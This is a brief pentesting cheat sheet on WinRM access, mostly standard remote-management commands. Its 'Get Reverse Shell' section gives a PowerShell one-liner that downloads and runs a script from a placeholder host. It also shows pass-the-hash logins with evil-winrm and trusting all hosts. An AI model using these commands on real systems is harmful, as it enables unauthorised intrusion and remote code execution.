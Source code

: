 
# Basic Information
**Windows Remote Management (WinRM)** is Microsoft’s implementation of the WS-Management protocol, which enables remote command execution and system management over HTTP or HTTPS. 
It typically operates over TCP port **5985** for unencrypted communication and port **5986** for encrypted sessions using HTTPS, and is commonly used for remote PowerShell access and automation within Windows environments.

## Starting a Session
*With Elevated Privileges*
```powershell
Enable-PSRemoting -Force Set-Item wsman:\localhost\client\trustedhosts *
```

# Commands
## Run Commands
```powershell
Invoke-Command -ComputerName <COMPUTERNAME> -ScriptBlock {ipconfig /all} [-credential DOMAIN\USERNAME]
```

## Run Scripts
```powershell
Invoke-Command -ComputerName <COMPUTERNAME> -FilePath C:\path\to\script\file [-credential DOMAIN\USERNAME]
```

## Get Reverse Shell
```powershell
Invoke-Command -ComputerName <computername> -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://<IP>/SCRIPT')"}
```

## Open WinRM
```powershell
.\PsExec.exe \\computername -u domain\USERNAME -p PASSWORD -h -d powershell.exe "enable-psremoting -force"
```



# Connection From Linux
## evil-winrm
Download from: [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

```bash
evil-winrm -u <USER> -p 'PASSWORD'  -i <IP>/<Domain>
```

### Pass The Hash
```bash
evil-winrm -u <USER> -H <HASH> -i <IP>
```

# References
- [https://book.hacktricks.wiki/en/network-services-pentesting/5985-5986-pentesting-winrm.html](https://book.hacktricks.wiki/en/network-services-pentesting/5985-5986-pentesting-winrm.html)